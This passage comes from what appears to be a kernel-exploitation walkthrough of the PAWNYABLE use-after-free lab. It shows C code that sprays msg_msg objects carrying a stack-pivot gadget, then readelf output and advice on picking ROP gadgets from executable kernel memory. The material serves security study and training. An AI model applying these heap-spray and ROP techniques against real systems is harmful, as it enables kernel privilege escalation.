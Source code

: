 ```c
		ops[i] = 0xdeadbeefdeadbe00 + i;
	}
	ops[12] = gadget_pivot; //
	// ops[20] = ret_gadget; /
    // ops[12] = 0xdeadbeefdeadbe12;
	if (msgsnd(queue, &msg, MSG_SZ, IPC_NOWAIT) == -1) {
        fails++;
    }
	return fails;
}

// calling the above function to spam 25 messages in each queue :D
for(int i = 0; i < msg_count; i++) {
  printf("[+] Spraying msg_msg in message queue %d: %d\n", i, msg_queue[i]);
  for(int j = 0; j < 25; j++) {
    fails += set_message(i, msg_queue);
  }
}
```

I initially aimed to build a ROP chain similar to the one in [h0mbre’s walkthrough](https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/) and honestly, I thought I had nailed it. But later I realized I was resolving gadgets at incorrect addresses: ones that either didn’t have executable permissions or simply didn’t exist when I examined the memory in `gdb`.

The key takeaway here is: **you need to extract your ROP gadgets from valid, executable kernel memory regions.** This ensures your gadgets are both present and usable when triggered during exploitation.

You can use the following commands to list valid regions and extract usable ROP gadgets:

```sh
readelf -Wl vmlinux

Elf file type is EXEC (Executable file)
Entry point 0x1000000
There are 5 program headers, starting at offset 64

Program Headers:
  Type           Offset   VirtAddr           PhysAddr           FileSiz  MemSiz   Flg Align
  LOAD           0x200000 0xffffffff81000000 0x0000000001000000 0x185e854 0x185e854 R E 0x200000
  LOAD           0x1c00000 0xffffffff82a00000 0x0000000002a00000 0x7df000 0x7df000 RW  0x200000
  LOAD           0x2400000 0x0000000000000000 0x00000000031df000 0x02cae8 0x02cae8 RW  0x200000
  LOAD           0x260c000 0xffffffff8320c000 0x000000000320c000 0x273000 0x424000 RWE 0x200000
  NOTE           0x1a5e800 0xffffffff8285e800 0x000000000285e800 0x000054 0x000054     0x4

 Section to Segment mapping:
  Segment Sections...
   00     .text .rodata .pci_fixup .tracedata __ksymtab __ksymtab_gpl __ksymtab_strings __init_rodata __param __modver __ex_table .notes 
   01     .data __bug_table .orc_header .orc_unwind_ip .orc_unwind .orc_lookup .vvar 
   02     .data..percpu 
   03     .init.text .altinstr_aux .init.data .x86_cpu_dev.init .parainstructions .retpoline_sites .return_sites .call_sites .ibt_endbr_seal .altinstructions .altinstr_replacement .apicdrivers .exit.text .smp_locks .data_nosave .bss .brk 
   04     .notes 
```
From here, we can identify the address range for the `.text` section of the kernel and use the `ROPGadget` tool to find usable gadgets. Interestingly, gadgets from the `.init.text` region won't  likely work because that region is discarded after kernel initialization.
